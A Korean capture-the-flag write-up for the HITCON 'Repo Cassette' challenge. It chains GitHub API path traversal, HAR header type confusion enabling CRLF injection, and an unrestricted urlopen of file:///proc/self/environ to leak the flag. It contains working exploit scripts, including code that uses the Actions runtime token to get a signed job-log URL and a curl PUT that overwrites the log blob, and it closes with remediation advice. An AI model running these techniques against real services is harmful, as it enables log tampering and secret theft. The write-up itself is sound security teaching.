

# Repo Cassette - GitHub API 경로 탈출과 SSRF·LFI 취약점 체인

Repo Cassette는 HAR로 저장한 GitHub 저장소 응답을 다시 제공하고, 현재
GitHub 응답의 SHA-256과 일치하면 저장소 소유자의 아바타를 postcard
SVG에 포함하는 문제다.

핵심은 다음 세 가지 동작을 연결하는 것이다.

1. `repository`가 엄격히 검증되기 전에 GitHub API 요청 경로에 사용된다.
2. HAR 헤더는 검증된 객체가 아니라 원본 객체에서 다시 읽힌다.
3. 검증된 JSON의 `avatar_url`은 스킴 제한 없이 Python `urlopen`에 전달된다.

최종 익스플로잇에서는 GitHub Actions job log를 공격자가 제어하는
`text/plain` 응답으로 만든 뒤 API 경로 탈출로 가져온다. HAR 헤더 타입
혼동으로 그 본문을 `application/json`으로 재생하고,
`file:///proc/self/environ`을 아바타로 지정해 플래그를 SVG의 base64
이미지 데이터로 유출한다.

## 공격 흐름



## 취약점 요약

| 구간 | 문제 | 익스플로잇에서의 역할 |
| --- | --- | --- |
| `archive.js`의 `fetchSample` | 넓은 문자열 스키마만 통과한 `repository`를 URL 경로에 연결 | `../`로 GitHub Actions job log API 접근 |
| `sourceFingerprint` | live 응답이 JSON일 때만 저장소 이름과 본문 구조 검사 | `text/plain` job log를 신뢰하고 SHA-256 생성 |
| HAR 헤더 처리 | Zod로 파싱한 `entry`가 아니라 원본 `capture`의 값 사용 | Buffer 형태 객체로 CRLF 응답 헤더 주입 |
| `postcard/app.py`의 `portrait` | `avatar_url`을 스킴 제한 없이 `urlopen`에 전달 | `file:///proc/self/environ` 읽기 |

이 취약점들은 단독으로는 플래그를 주지 않는다. GitHub에서 매번 동일한
공격자 제어 바이트를 반환받아 source SHA 검증을 통과하고, 그 바이트를
postcard 서비스에는 JSON으로 보이게 해야 전체 체인이 완성된다.

## GitHub API 경로 탈출

`readCapture`가 받는 `repository`의 최초 검사는 길이뿐이다.

```javascript
const repositorySchema = z.string().min(3).max(256);

async function fetchSample(repository) {
  const [owner, ...name] = repository.split('/');
  const repo = name.join('/');
  if (!owner || !repo) throw new Error('Cannot archive repository identifier');

  const { default: ghGot } = await import('gh-got');
  const response = await ghGot(`repos/${owner}/${repo}`, {
    responseType: 'buffer',
    timeout: { request: 6000 },
    retry: { limit: 0 },
  });
  return { body: Buffer.from(response.body), headers: response.headers };
}
```

따라서 다음 형태의 값을 넣으면 URL의 dot segment 정규화 이후 저장소
정보 API가 아니라 Actions job log API에 도달한다.

```text
a/../../repos/OWNER/REPO/actions/jobs/JOB_ID/logs
```

캡처 본문은 `inspectContent`를 통과해야 하므로 `full_name`도 이 경로
문자열과 정확히 같아야 한다.

```javascript
if (typeof document.full_name !== 'string' ||
    document.full_name.toLowerCase() !== repository.toLowerCase() ||
    !document.owner || typeof document.owner.avatar_url !== 'string') {
  throw new Error('Cannot archive a response from another repository');
}
```

그러나 엄격한 `OWNER/REPO` 정규식은 GitHub 요청 전에 적용되지 않는다.
`sourceFingerprint`에서도 live 응답의 미디어 타입이 `application/json`일
때만 정규식과 JSON 구조를 검사한다.

```javascript
function sourceFingerprint(sample, repository) {
  if (!sample) return null;
  const type = mediaType(sample.headers);
  if (!type) return null;
  if (type === 'application/json') {
    try {
      if (!repositoryName.test(repository) ||
          !inspectContent(sample.body, repository)) return null;
    } catch {
      return null;
    }
  }
  return createHash('sha256').update(sample.body).digest('hex');
}
```

Actions job log는 `Content-Type: text/plain`으로 반환된다. 따라서 악성
경로임에도 job log 본문의 SHA-256이 정상적인 `sourceSha256`으로 저장된다.

## 제어 가능한 GitHub 응답 찾기

필요한 GitHub 응답은 다음 조건을 만족해야 한다.

- 본문을 바이트 단위로 완전히 제어할 수 있어야 한다.
- 응답 미디어 타입은 `application/json`이 아니어야 한다.
- `Content-Disposition`이 없어야 한다.
- URL의 숫자 ID를 악성 JSON의 `full_name`에 넣을 수 있어야 한다.

처음에는 Actions artifact를 운반체로 고려할 수 있다. 하지만 artifact
다운로드 응답에는 실제 `Content-Disposition`이 있으며, 아래의
`reconcileHeaders`가 HAR의 같은 이름 헤더를 live 값으로 교체한다.

```javascript
function reconcileHeaders(captured, liveHeaders) {
  const live = new Map(
    Object.entries(liveHeaders)
      .filter(([, value]) => value !== undefined)
      .map(([name, value]) => [name.toLowerCase(), { name, value }]),
  );

  for (const savedName of Object.keys(captured)) {
    const current = live.get(savedName.toLowerCase());
    if (!current) continue;
    delete captured[savedName];
    captured[current.name] = current.value;
  }
}
```

반면 `/actions/jobs/{job_id}/logs`의 최종 응답은 `text/plain`이고
`Content-Disposition`이 없다. 문제는 정상 job log에는 timestamp와 runner
출력이 포함되므로 JSON 본문을 직접 만들 수 없다는 점이다.

## Actions job log Blob 제어

GitHub-hosted runner의 JavaScript action에는 `ACTIONS_RUNTIME_TOKEN`과
`ACTIONS_RESULTS_URL`이 주입된다. `@actions/artifact` 내부 유틸리티로
workflow와 job의 backend ID를 얻은 뒤 Results Receiver에 요청하면 job log
Blob의 단기 서명 URL을 얻을 수 있다.

```javascript
import path from 'node:path';
import { fileURLToPath, pathToFileURL } from 'node:url';

const artifactEntry = fileURLToPath(import.meta.resolve('@actions/artifact'));
const artifactLib = path.dirname(artifactEntry);
const load = relativePath =>
  import(pathToFileURL(path.join(artifactLib, relativePath)));
const { getBackendIdsFromToken } =
  await load('internal/shared/util.js');

const ids = getBackendIdsFromToken();
const endpoint = new URL(
  'twirp/results.services.receiver.Receiver/GetJobLogsSignedBlobURL',
  process.env.ACTIONS_RESULTS_URL,
);

const response = await fetch(endpoint, {
  method: 'POST',
  headers: {
    Authorization: `Bearer ${process.env.ACTIONS_RUNTIME_TOKEN}`,
    Accept: 'application/json',
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({
    workflow_job_run_backend_id: ids.workflowJobRunBackendId,
    workflow_run_backend_id: ids.workflowRunBackendId,
  }),
});

if (!response.ok) {
  throw new Error(`GetJobLogsSignedBlobURL failed: ${response.status}`);
}

const result = await response.json();
const signedUrl = result.logs_url ?? result.logsUrl;
```

서명 URL은 공개 workflow 로그에 출력하지 않고 인증이 필요한 임시 Actions
artifact에 저장한다. workflow가 끝난 뒤 REST API로 숫자 `JOB_ID`를 구한다.

```bash
JOB_ID=$(gh api \
  "repos/$OWNER/$REPO/actions/runs/$RUN_ID/jobs" \
  --jq '.jobs[0].id')
```

그 ID를 사용해 다음 JSON을 만든다. 공백이나 마지막 개행도 SHA-256에
영향을 주므로 이후 모든 단계에서 같은 바이트를 사용해야 한다.

```json
{
  "full_name": "a/../../repos/OWNER/REPO/actions/jobs/JOB_ID/logs",
  "description": "Repo Cassette",
  "stargazers_count": 0,
  "owner": {
    "login": "cassette",
    "avatar_url": "file:///proc/self/environ"
  }
}
```

이 문제를 풀 당시 서명 URL의 권한은 create와 write인 `cw`였고, 완료된 job
log Blob을 BlockBlob PUT으로 교체할 수 있었다.

```bash
curl -X PUT \
  -H 'x-ms-blob-type: BlockBlob' \
  -H 'Content-Type: text/plain' \
  --data-binary @payload.json \
  "$SIGNED_JOB_LOG_URL"
```

GitHub API로 다시 받은 본문이 payload와 정확히 같은지 확인한다.

```bash
gh api --allow-escape-sequences \
  "repos/$OWNER/$REPO/actions/jobs/$JOB_ID/logs" \
  > downloaded.json

cmp payload.json downloaded.json
sha256sum payload.json downloaded.json
```

## HAR 헤더 타입 혼동

헤더 스키마는 값을 문자열로 강제 변환한 결과에 CRLF가 없는지 검사한다.

```javascript
const headerSchema = z.object({
  name: z.string().min(1).max(128).regex(HTTP_TOKEN),
  value: z.coerce.string()
    .max(2048)
    .refine((value) => !/[\r\n]/.test(value)),
});
```

하지만 `readCapture`는 파싱된 `entry.response.headers`가 아니라 원본
`capture.response.headers`를 순회한다.

```javascript
const entry = entrySchema.parse(capture);
const headers = Object.create(null);

for (const { name, value } of capture.response.headers) {
  const lower = name.toLowerCase();
  if (reserved.has(lower)) continue;
  headers[name] = value;
}
```

`{type: "Buffer", data: [...]}` 형태의 객체는 Zod 검증 시 문자열
`[object Object]`가 되어 통과하지만, 실제 응답 헤더에는 원래 객체가
전달된다. `data`에 `inline\r\nContent-Type: application/json`의 바이트를
넣으면 저장된 fixture 응답에 별도 `Content-Type` 헤더가 생긴다.

다음 JavaScript로 필요한 HAR를 만들 수 있다.

```javascript
import fs from 'node:fs';

const repository =
  `a/../../repos/${process.env.OWNER}/${process.env.REPO}` +
  `/actions/jobs/${process.env.JOB_ID}/logs`;

const payload = Buffer.from(JSON.stringify({
  full_name: repository,
  description: 'Repo Cassette',
  stargazers_count: 0,
  owner: {
    login: 'cassette',
    avatar_url: 'file:///proc/self/environ',
  },
}));

const injected = Buffer.from(
  'inline\r\nContent-Type: application/json',
).toJSON();

const har = {
  log: {
    entries: [{
      response: {
        headers: [{
          name: 'Content-Disposition',
          value: injected,
        }],
        content: {
          encoding: 'base64',
          text: payload.toString('base64'),
        },
      },
    }],
  },
};

fs.writeFileSync('payload.json', payload);
fs.writeFileSync('exploit.har', JSON.stringify(har));
```

캡처에 정상적인 `Content-Type: application/json`을 직접 넣으면 안 된다.
`reconcileHeaders`가 같은 이름의 live 헤더를 찾아 `text/plain`으로
교체하기 때문이다. job log 응답에는 `Content-Disposition`이 없으므로 위
악성 값은 그대로 남는다.

결과적으로 fixture 응답은 다음 두 성질을 동시에 갖는다.

- 실제 본문은 GitHub job log와 완전히 같아 source SHA 검증을 통과한다.
- 응답 미디어 타입은 주입된 `application/json`이므로 postcard 서비스가
  본문을 JSON으로 파싱한다.

## Postcard 검증 우회

`fetch_repository`는 fixture 응답의 미디어 타입이 JSON인지 확인하고 본문을
파싱한다.

```python
media_type = response.headers.get('Content-Type', '').split(',', 1)[0]
media_type = media_type.split(';', 1)[0].strip().lower()
if media_type != 'application/json':
    raise ValueError('Expected a JSON response')

repository = json.loads(b''.join(chunks).decode('utf-8'))
```

`matches_source`는 edge의 raw body SHA-256과 fixture의 `sourceSha256`을
비교한다.

```python
with requests.get(
    f'{REPLAY_BASE}/view/{fixture_id}',
    timeout=5,
    stream=True,
) as replay:
    raw_body = replay.raw.read(MAX_REPLAY_BYTES + 1, decode_content=False)

return compare_digest(sha256(raw_body).hexdigest(), expected)
```

검증에 성공하면 `load_card`가 origin에서 같은 fixture를 다시 읽어 edge와
파싱된 JSON 객체가 같은지도 검사한다. 두 서비스가 같은 저장 본문과 주입된
헤더를 사용하므로 이 비교도 통과한다.

```python
verified = matches_source(fixture_id)
if verified:
    origin_repository, _ = fetch_repository(fixture_id, ORIGIN_BASE)
    verified = origin_repository == repository
```

## file URL을 이용한 플래그 유출

`verified`가 참일 때만 `owner.avatar_url`이 `portrait`으로 전달된다. 하지만
`portrait`은 URL 스킴이나 호스트를 제한하지 않는다.

```python
def portrait(url):
    with urlopen(url, timeout=4) as response:
        data = response.read(MAX_AVATAR_BYTES + 1)
        media_type = response.headers.get_content_type()
    if not media_type.startswith('image/'):
        media_type = 'image/png'
    return f'data:{media_type};base64,{b64encode(data).decode("ascii")}'
```

`file:///proc/self/environ`을 열면 postcard 컨테이너의 환경 변수 바이트가
반환된다. MIME이 이미지가 아니어도 코드가 `image/png`으로 바꾼 뒤 원본
바이트를 base64로 인코딩하므로, SVG에는 다음과 같은 data URI가 들어간다.

```text
href="data:image/png;base64,..."
```

## 제출 및 플래그 추출

악성 HAR를 multipart form으로 업로드한다. `repository`는 payload의
`full_name`과 같아야 한다.

```bash
REPOSITORY="a/../../repos/$OWNER/$REPO/actions/jobs/$JOB_ID/logs"

curl -F 'capture=@exploit.har;type=application/json' \
  -F "repository=$REPOSITORY" \
  -F 'entryIndex=0' \
  "$BASE/api/fixtures"
```

응답의 fixture ID로 postcard 상태를 조회한다.

```bash
curl "$BASE/api/postcards/$FIXTURE_ID"
```

성공 시 `status`는 `ok`, `verified`는 `true`다.

```json
{
  "status": "ok",
  "verified": true,
  "image": "/api/postcards/FIXTURE_ID/image.svg"
}
```

SVG를 저장한 뒤 data URI를 디코딩하고 NUL로 구분된 환경 변수 중
`FLAG=`를 찾는다.

```bash
curl -o postcard.svg \
  "$BASE/api/postcards/$FIXTURE_ID/image.svg"
```

```javascript
import fs from 'node:fs';

const svg = fs.readFileSync('postcard.svg', 'utf8');
const image = svg.match(/href="data:[^;]+;base64,([^"]+)"/);
if (!image) throw new Error('embedded portrait missing');

const environment = Buffer.from(image[1], 'base64').toString('utf8');
const flag = environment.match(/(?:^|\0)FLAG=([^\0]+)/);
if (!flag) throw new Error('FLAG missing');

console.log(flag[1]);
```

최종 플래그는 다음과 같다.

```text
hitcon{omggggggggggggggggitttthubbbbaarrrrchiveeeerrrr}
```

## 수정 방안

1. `repository`를 네트워크 요청 전에 엄격히 검증해야 한다. 문자열 연결 대신
   owner와 repository를 별도 매개변수로 받는 GitHub API 클라이언트 경로를
   사용하고, 정규식을 통과한 값만 요청에 사용한다.
2. live 응답의 `Content-Type`에 따라 보안 검사를 생략하면 안 된다. 기대한
   저장소 API 응답인지 상태 코드, 최종 URL, 미디어 타입, JSON 구조를 모두
   확인한 뒤에만 fingerprint를 생성해야 한다.
3. Zod 검증 후에는 반드시 파싱 결과만 사용해야 한다. 이 코드에서는
   `capture.response.headers`가 아니라 `entry.response.headers`를 순회해야
   한다. 저장 가능한 응답 헤더도 안전한 allowlist로 제한하는 것이 좋다.
4. 아바타 URL은 `https`만 허용하고 신뢰할 수 있는 호스트로 제한해야 한다.
   redirect 이후의 URL과 해석된 IP도 다시 검사해 SSRF와 로컬 파일 접근을
   차단해야 한다.
5. raw body SHA는 출처가 신뢰될 때만 의미가 있다. fingerprint가 기대한
   GitHub 리소스에서 계산됐는지 검증하지 않으면 공격자가 제어하는 다른
   API 객체의 무결성만 증명하게 된다.
